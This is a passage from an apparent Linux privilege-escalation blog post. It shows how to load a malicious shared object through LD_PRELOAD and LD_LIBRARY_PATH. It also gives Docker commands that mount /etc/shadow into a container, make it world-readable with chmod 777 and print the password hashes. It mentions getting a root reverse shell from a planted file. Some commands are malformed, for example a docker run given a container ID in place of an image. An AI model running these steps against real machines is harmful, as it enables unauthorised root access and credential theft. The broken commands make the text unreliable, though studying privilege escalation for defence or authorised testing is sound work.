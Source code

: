 ```

we can put our malicious file in next to /var/  path and can get easily reverse shell as root if binary is running in root permission or on cronjob.


**Abusing LD_PRELOAD and LD_LIBRARY_PATH**
LD_PRELOAD and LD_LIBRARY_PATH are environment variables. LD_PRELOAD allows to indicate an additionnal directory to search for libraries and the LD_PRELOAD library which will be loaded prior to any other library when the program gets executed.



LD_PRELOAD will load malicious .so file prior when the program gets executed.
```
LD_PRELOAD=/tmp/hacker/hackerfile.so /usr/bin/programe_name
```

LD_LIBRARY_PATH will add an additionnal directory to search for libraries
```
export LD_LIBRARY_PATH=/tmp/hacker/
```
Now if we execute the program it will load our malicious shared object file and perform our desired action


**I just introduce some basic binary expoitation techniques, i will cover beginner to intermediate level of this topic in my upcoming exploit development blog series**



**Docker privilege escalation**

If we found docker is running in previous phases, we can easily use it to escalate privileges

```
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
cat /docker/hashedpasswords > /docker/cleanpswd.txt
chmod 777 /docker/cleanpswd.txt
cat /docker/cleanpswd.txt

```
```
docker exec -it <CONTAINER_ID> /bin/bash
```

```
docker run -v /root:/mnt it <CONTAINER_ID>
```



## Conclusion

**_We have discussed linux manual privilege escalation techniques in this blog post, revise them if you're stucked in any topic, please do google to clear your doubts._**




